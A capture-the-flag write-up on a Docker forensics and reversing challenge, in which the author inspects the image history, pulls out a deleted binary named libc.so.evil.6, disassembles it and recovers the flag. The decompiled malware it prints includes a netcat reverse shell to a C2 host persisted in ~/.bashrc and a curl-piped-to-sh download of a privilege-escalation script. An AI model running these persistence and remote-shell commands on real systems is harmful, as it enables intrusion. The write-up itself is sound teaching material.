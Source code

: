 ```yaml
---
title: HackyHolidays - Protect the supply - Writeup
tags: hackyholidays docker digital-forensics malware-analysis reverse-engineering ctf binary-analysis
---
```


# Description

This challenge was in both the forensics and reversing categories

![image](https://user-images.githubusercontent.com/84577967/178866898-e4fcedc6-2d0d-4bc2-a2de-8237f9e290a8.png)

# Solution

The challenge is a container that can be pulled using the command described in the challenge description.

```bash
docker run -ti hackazon/micro_ghost /bin/sh
```

As a fan of `bash` shell, I had to change the `/bin/sh` to `/bin/bash`

```bash
docker run -ti hackazon/micro_ghost /bin/bash
```

![image](https://user-images.githubusercontent.com/84577967/178867304-81b759ea-a401-424c-9980-758741ec271b.png)

After we pull up the full docker image, we can investigate the command history

```bash
docker history IMAGEID
```

Of course we have to change the `IMAGEID` value and to retrieve the challenge image id we can use this simple command

```bash
docker image ls | grep hackazon/micro_ghost
```

![image](https://user-images.githubusercontent.com/84577967/178867433-0514a809-4f6c-4ce0-8fe8-4a81a7187c24.png)


```bash
docker history fc6642d32b03
```

![image](https://user-images.githubusercontent.com/84577967/178867679-d7af4be8-2293-480f-9441-5cdf8b75a792.png)

The output of the command may not be complete, but we can add additional arguments and use the `jq` tool to beautify the output.

{% raw %}
```bash
docker history --format "{{json .}}" fc6642d32b03 --no-trunc |jq .
```
{% endraw %}

![image](https://user-images.githubusercontent.com/84577967/178867846-7fa527fb-30c7-40c9-b470-66625e2d9e6a.png)

The full output:

```json
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:06+01:00",
  "CreatedBy": "/bin/sh -c rm /lib/x86_64-linux-gnu/libc.so.evil.6",
  "CreatedSince": "7 days ago",
  "ID": "sha256:fc6642d32b03e5c96e96299b64ca355bcfea30ef6ad4dec984f2601129210bbb",
  "Size": "0B"
}
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:04+01:00",
  "CreatedBy": "/bin/sh -c /lib/x86_64-linux-gnu/libc.so.evil.6",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "0B"
}
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:03+01:00",
  "CreatedBy": "/bin/sh -c mv /opt/libc.so.6 /opt/libc.so.evil.6",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "1.9MB"
}
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:02+01:00",
  "CreatedBy": "/bin/sh -c chmod +x /lib/x86_64-linux-gnu/libc.so.evil.6",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "14.4kB"
}
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:00+01:00",
  "CreatedBy": "/bin/sh -c #(nop) COPY file:46b15dd2b1c1b2421f8f66c0e0b1adbb2be1fa29bdfb24df21ab41a4393cc4ca in /opt/ld-linux-x86-64.so.2 ",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "204kB"
}
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:00+01:00",
  "CreatedBy": "/bin/sh -c #(nop) COPY file:5f853a35eb22d7cd0b3789fdf55937ebf492d63386894ed02ab7d6fa7717ff30 in /opt/libc.so.6 ",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "1.9MB"
}
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:22:59+01:00",
  "CreatedBy": "/bin/sh -c #(nop) COPY file:1d19734b949df42e538d10ea3e6c9eb33e3f2064be2540a446c095ee007af323 in /lib/x86_64-linux-gnu/libc.so.evil.6 ",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "14.4kB"
}
{
  "Comment": "",
  "CreatedAt": "2022-06-06T23:21:26+01:00",
  "CreatedBy": "/bin/sh -c #(nop)  CMD [\"bash\"]",
  "CreatedSince": "5 weeks ago",
  "ID": "<missing>",
  "Size": "0B"
}
{
  "Comment": "",
  "CreatedAt": "2022-06-06T23:21:25+01:00",
  "CreatedBy": "/bin/sh -c #(nop) ADD file:11157b07dde10107f3f6f2b892c869ea83868475d5825167b5f466a7e410eb05 in / ",
  "CreatedSince": "5 weeks ago",
  "ID": "<missing>",
  "Size": "77.8MB"
}
```

What took my attention is the third value from bottom, where a weird file was copied to the container `/lib/x86_64-linux-gnu/libc.so.evil.6`

```json
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:22:59+01:00",
  "CreatedBy": "/bin/sh -c #(nop) COPY file:1d19734b949df42e538d10ea3e6c9eb33e3f2064be2540a446c095ee007af323 in /lib/x86_64-linux-gnu/libc.so.evil.6 ",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "14.4kB"
}
```

But it seems like it was removed 

![image](https://user-images.githubusercontent.com/84577967/178868216-05856585-5204-49e1-b0b6-25c658d0ef37.png)

And this what we can notice in the last command

```json
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:06+01:00",
  "CreatedBy": "/bin/sh -c rm /lib/x86_64-linux-gnu/libc.so.evil.6",
  "CreatedSince": "7 days ago",
  "ID": "sha256:fc6642d32b03e5c96e96299b64ca355bcfea30ef6ad4dec984f2601129210bbb",
  "Size": "0B"
}
```

And just seconds before that it was executed

```json
{
  "Comment": "",
  "CreatedAt": "2022-07-06T14:23:04+01:00",
  "CreatedBy": "/bin/sh -c /lib/x86_64-linux-gnu/libc.so.evil.6",
  "CreatedSince": "7 days ago",
  "ID": "<missing>",
  "Size": "0B"
}
```

In order to find the original file, we need to examine the preceding layers of the Docker image. One way to do this is by saving the image to a tar archive, which allows us to easily examine the individual layers of the image.

```bash
docker save fc6642d32b03 > fc6642d32b03.tar
```

After extracting the tar file, we can locate a file called `manifest.json`, which contains information about all the layers of the image. This file can be useful in our investigation.

![image](https://user-images.githubusercontent.com/84577967/178868876-4b131905-8e26-46e2-8055-edfeb0d9ec21.png)

The file was copied in the third operation, and the second operation was just a CMD command. This means that the binary file we are looking for may be located in the second layer of the image `104337d79b4c7be52c587e29595ddf09df584bd991875e10392a0fc1fd901b57/layer.tar`.

![image](https://user-images.githubusercontent.com/84577967/178869275-0e071309-fcf8-4e51-8d5a-32c55f1db72b.png)

Let's open it in `Cutter` to disassemble the binary and gain a deeper understanding of what it does

![image](https://user-images.githubusercontent.com/84577967/178871965-9a8941ef-aae7-44da-b837-de160fdc5ccd.png)

Upon examining the functions of the binary, it appears that it may be a type of malware.

![image](https://user-images.githubusercontent.com/84577967/178872535-5ff482ec-95c6-49f5-bc99-07121fce5e9a.png)

![image](https://user-images.githubusercontent.com/84577967/178872988-1924c75e-1aaf-40ee-b768-3c17ebcca50f.png)

![image](https://user-images.githubusercontent.com/84577967/178877053-a128d4f5-b6a5-4757-a4da-5f4703b9ca3c.png)

In the screenshot below, the third function appears to be a loop that retrieves its values from the main function.

![image](https://user-images.githubusercontent.com/84577967/178877935-a1227b25-ee6f-4778-9827-9a577b954532.png)

In order to safely run the binary and see what it does, we can copy it to a `Ubuntu` container. This will allow us to examine the malware's behavior without exposing our host system to any potential risks.

![image](https://user-images.githubusercontent.com/84577967/178881692-9f8b49c1-4d1a-4f69-8370-181bcd329351.png)

Based on the functions we have analyzed, it seems that the malware performs the actions that we have identified.

```C
void fcn.00001208(void)
{
    system("apt install netcat");
    system("apt install wget");
    system("echo \'nc c2.maldomain.del 4444 -e /bin/bash >> ~/.bashrc\'");
    system("curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh >lin.log");
    return;
}
```

The third function with the loop was not initially visible to us. 
However, using the ltrace tool has allowed us to see this function and gain a better understanding of the malware's behavior.

![image](https://user-images.githubusercontent.com/84577967/178882405-f8c61a1f-ee66-4cc7-9a92-9fa9c36113c3.png)

By default, ltrace limits the output of strings to 32 characters. However, we can use additional arguments to change this behavior `-s "number of strings"` and view longer strings if needed.

```bash
ltrace -s 200 ./libc.so.evil.6
```

# Flag

We were able to successfully retrieve the flag for the challenge.

![image](https://user-images.githubusercontent.com/84577967/178882767-4f9706a0-ff9b-41ac-a9f5-add41e77b7a8.png)

